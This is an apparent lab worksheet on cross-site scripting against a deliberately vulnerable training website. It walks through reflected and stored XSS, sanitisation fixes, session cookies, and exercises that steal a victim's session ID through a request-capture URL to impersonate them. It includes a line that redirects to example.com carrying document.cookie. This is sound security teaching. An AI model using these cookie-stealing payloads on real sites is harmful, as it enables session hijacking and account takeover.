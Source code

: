 Worksheet
========================================================================

Preparation
___________

Start the Virtual Machine and use your favourite browser to navigate to the
web application (The Terrible Website,
port 12342), Usermin (port 12323) and Request Bin (port 12344).

After logging in, Usermin will show you the contents of ``/home/student``, from
which you can access the web application's code in the ``webapp`` folder.

The web application (The Terrible Website) is a sample website designed to demonstrate
some security vulnerabilities, including those explained in this worksheet.

The first step is to familiarise with the website. You can create an
account using the "Register" link at the top of the page. The website
allows users to login, view articles and write comments.


Unsanitised output
_____________________

Try to use the search functionality of the website. This page simply
searches the database for articles by their title.

In this website, the search input is not appropriately sanitised.
Notice that the search functionality of the website returns a webpage with
a heading which counts the number of results and prints back the search
terms used (i.e. searching for ``Alan Turing`` will print
``1 results for "Alan Turing"``).

If you insert some HTML code into the input bar, you can notice that
this is not correctly filtered by the application.
For example, if you type ``<u>Hello</u>`` into the search bar and press enter,
you can see that the webpage will display the text underlined, instead of
displaying the string as it has been typed. This is
because the HTML ``<u>...</u>`` tag is responsible for underlining text,
and the unfiltered text is interpreted as HTML code by the browser.

.. topic:: Exercise 1

  Exploit this functionality to display an arbitrary image from the internet
  in the search page.

Hint:
    You can find a list of HTML tags at http://www.w3schools.com/tags/.

This type of attack is known as *non-persistent* or *reflected*,
because the result is shown back to the user but it is
not saved in the website's database, and it needs the attacker to share
the link of the search results page and it only affects users who
click on the malicious link.


Fix the search
______________

The webpage which is responsible for the search is available for you to
edit from Usermin in ``/home/student/webapp/pages/search.php``. You can
make changes to the file, save it and reload the page of the website
to check the result.

If things go wrong:
  If you want to restore the initial version of the files,
  simply click on the "reset changes" link in the footer of the website,
  then click on the "reset code" button.

PHP files (having ``.php`` extension) contain HTML code and they may contain some PHP code
between ``<?php`` and ``?>`` tags. PHP code is processed by the server when
a webpage is requested, its output is mixed with the HTML page and only
HTML is returned to the web browser. Variable names start with a dollar sign (``$``)
and all instructions must terminate with a semicolon (``;``). You can learn more about the language at
http://php.net/manual/en/langref.php.

The ``prepareSearchTerm`` function is used to prepare the string before it
is used to search the articles of the website. Currently, it only capitalises
the first letter of each word in the string
(i.e. ``this is a search query`` -> ``This Is A Search Query``).

.. topic:: Exercise 2

  Change the **prepareSearchTerm** function to fix the vulnerability.
  Then test that the string you prepared in the previous exercise
  is now innocuous and can't be used to display an image.

Hint:
    There are a couple of ways you can implement the fix to prevent
    HTML markup from being injected. Symbols, if are not
    intended to be interpreted as code, should be encoded in their
    hexadecimal HTML notation, e.g. ``£`` can be written
    as ``&#163;`` (or its memorable equivalent ``&pound;``).

    Think about which special characters play a role in HTML injection
    attacks.


Injecting Javascript Code
_________________________

Injecting simple formatting in webpages may temporarily
disrupt the layout of the webpage but is not generally a security risk.

Images can be a risk for privacy in some cases, for example if the
image is served by a webserver which is under the control of the attacker,
this can be used to retrieve information about the end user, such as
IP address, the browser used, and whether the user has opened the webpage
or not (this technique is known as `web beacon <https://en.wikipedia.org/wiki/Web_beacon>`_).

Probably, the most dangerous HTML code which can be injected into webpages
is Javascript scripts. These are automatically executed by the web browser
as soon as they are encountered, and permit a broad range of operations, such as
the manipulation of the DOM (structure of the page), reading cookies and
sending HTTP requests.

There are two ways to insert Javascript in a HTML file:

1. Using a ``<script>...</script>`` tag, including the Javascript code directly
   in between the tags.

2. Hosting the script on different web server, and injecting it using:
   ``<script src="http://example.com/malicious-code.js"></script>``,
   where ``malicious-code.js`` is a file containing Javascript code. This
   is known **XSS**, or Cross-site scripting.

The comments section of the website is vulnerable to XSS but this time
the content of the comments is persisted to the database, therefore this
application is vulnerable to *permanent XSS attacks*, which can be vary
dangerous.

.. topic:: Exercise 3

  Try typing the following code in the comment box of an article, and observe
  its effect on you and other users who visit the same page:

  .. code:: javascript

    <script> alert("Hello world"); </script>



How Sessions Work
-----------------

In order to understand identity theft attacks, it is important to
understand how sessions work in web applications. If you already know
about sessions and cookies, feel free to skip this section.

HTTP (*Hypertext Transfer Protocol*) is the protocol used for the transmission
of webpages and is the foundation of websites and web applications. Its
development began in 1989 before modern web applications, and it was originally
designed to serve as a protocol for simple informative webpages. It is probably
for this reason that HTTP is a *stateless* protocol, meaning that its
specification has no concept of a *session* between a client
and a server.

This may at first seem counterintuitive to readers,
because modern websites and web applications still use HTTP and
certainly do support authentication and other
systems that rely on the concept of a *session*.

**Cookies and sessions**

In order to keep track of the
current session information, most web applications use techniques such as
session cookies. Cookies are small strings which contain information that is
exchanged back and forth at every request between a client and a server.

At the first visit, the server assigns a random ID to the client, called the
session ID. This is communicated to the client. The server will store locally
any information regarding the current state of the application (the *session*
*data*), such as the authentication status of the user. The client, on the
other hand, will communicate its session ID to the server at every request,
so to receive webpages personalised on the basis of the logged in user.

The security of this method relies on the fact that the session information is
only accessible by the server, and that the session IDs are extremely
hard to guess.

You can try for yourself: most browsers allow users to view the list of cookies.
**Try visiting a familiar website and logging in**. At this point, you will probably
be able to see some cookie with a name such as "SESSION_ID", "SESSID" or "UID",
which will contain a long random string. Try deleting this cookie and refreshing
the webpage and you will probably be logged out of the website.

Hint:
    If you're using Google Chrome, you should be able to see a list of cookies
    by clicking on the icon in the Omnibar.

    If you're using Firefox, you should be able to see a list of cookies by
    clicking on the information sign icon in the address bar, "More Information",
    "Security" tab.

Ethics and regulations:
    At the time of writing, in the UK websites are required to ask for the
    user's explicit consent
    before storing some cookies on the user's browser
    and also need to explain what cookies are and how exactly they are used
    in the website. This also applies to similar technologies (e.g. HTML5
    session storage), but simple session cookies are generally exempt.
    Learn more at
    https://ico.org.uk/for-organisations/guide-to-pecr/cookies-and-similar-technologies/.


Capturing HTTP requests
-----------------------

Generally XSS attacks rely on sending the cookies' content to a
third party web server, under the control of the attacker.
For the purpose of this practical, a very simple web application is
running on the VM (port 12344). This web application provides an URL,
which you can find on the right of the home page, which simply captures
any HTTP request made to it, and stores the content of the request.

.. topic:: Exercise 4

  Visit the Request Bin application (port 12344), get the capture URL from the box
  on the right, and visit this URL with your browser. Then refresh the
  home page of the Request Bin application and notice the effect.

You should find a new request, of type "GET", made by your browser when
trying to open the page. You should be able to see the data associated
with this request, which includes your IP address, the timestamp,
and your user-agent string.


Using Javascript to steal the session ID
----------------------------------------

Javascript code has the ability to read and write cookies from and to the
browser. The cookies string can be accessed as the variable ``document.cookie``,
which contains all cookies in a key-value format (``key1=value1; key2=value2; ...``).

Most modern web browsers allow you access a Javascript interpreter in the scope
of the current webpage, which can be very useful for prototyping and debugging
your Javascript code.
This can generally be accessed under the "Developer Tools" or "Inspector"
menus of your browser.

Open your favourite website and then this Console. Typing ``document.cookie``
will probably show you a long list of cookies, which are used for statistics,
sessions, and advertisement profiling.

Intuitively, being able to read the session ID of another user and using it
on your computer, is normally enough to fool the website into believing you
are in fact the other user: this will cause the website to log you in as the other
user.

Now return to the web application (The Terrible Website).

Javascript code can be used to make HTTP requests in background. These are
known as AJAX requests. These request can carry arbitrary data, including
information about the user collected from the vulnerable website.

For example, you can use
Javascript to send a requesto the Request Bin application,
by writing in the Console:

.. code:: javascript

  jQuery.post("<CAPTURE URL>",
              {a_number: 42, some_text: "Hello World!"});


Where ``<CAPTURE URL>`` is the URL from the Request Bin application which
captures any request made to it.

This method, provided by the jQuery library (included for simplicity),
makes a HTTP POST request to the URL with payload
``a_number=42`` and ``some_text=Hello World!``. You can learn more about the
``jQuery.post`` method at https://api.jquery.com/jquery.post/.

.. topic:: Exercise 5

  Write a comment with some Javascript code that
  will make HTTP request to the Request Bin capture URL, containing the cookie
  information from the browser of the user.

Hint:
  Try combining the function presented above with the ``document.cookie``
  variable. Don't forget the ``<script></script>`` tags!

.. topic:: Exercise 6

  Now login as a second user (the "victim") and try visiting the article
  which contains the malicious comment. Verify that the
  victim unknowingly sent their cookies the Request Bin application,
  including their session ID.

  Now log out and use the session ID to impersonate the victim, without
  using their credentials.

Hint:
  To change your current session ID, you will need to edit your own cookies.
  Unfortunately, most modern browsers' developer tools allow you only
  to view and delete cookies, but not to edit them.

  To change the ``PHPSESSID`` cookie to the value ``NEW_VALUE``, you can
  open the website, then the browser's Console, and paste the following
  code:

  .. code:: javascript

    document.cookie = "PHPSESSID=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
    document.cookie = "PHPSESSID=NEW_VALUE";

  Finally, remember to refresh the webpage to see any changes.

  Please note that the first line is needed to discard the old value
  of the cookie, by setting its expiration date to the past. The second
  line then sets the cookie value to ``NEW_VALUE``.  You can
  read more about ``document.cookie`` at
  https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.

  Alternatively you can use a browser extension, such as
  Firebug for Firefox, which is available
  at https://getfirebug.com/downloads/. You can then activate the
  Firebug panel, open the Cookies tab and edit your cookies
  via the UI.

This type of attack is known as *persistent*,
because the malicious code is stored in the website by the attacker.


Note on HTTP access control: CORS (Cross-Origin Resource Sharing)
-----------------------------------------------------------------

For security reasons modern browsers restrict cross-origin HTTP requests
initiated from within scripts. This includes HTTP POST requests made using
jQuery's ``.post`` method. In fact these requests are generally subject to the
same-origin policy, meaning that the scripts can only make HTTP requests to
their own domain, unless explicitly specified by the application's web server.

For the purpose of this practical, CORS has been set to enforce a permissive
policy for requests made from scripts within the web application. This is not
realistic and is unlikely to happen on real websites. We believe this is justified
by the fact that CORS is not an excuse to avoid doing proper input sanitisation,
for the following reasons:

(a) CORS relies on the browser being modern and up to date. Older browsers,
    especially mobile phones' browsers, do not implement correctly, or fully,
    CORS policies.

(b) Other methods that circumvent CORS restrictions exist. For example, a Javascript
    script could still make a HTTP GET request by redirecting the user,
    e.g.:

      .. code:: javascript

        // Redirect the user to example.com/?cookies=PHPSESSID=123.....9;
        window.location = "http://example.com/?cookies=" + document.cookie;

You can read more about HTTP access control (CORS) at
https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS.
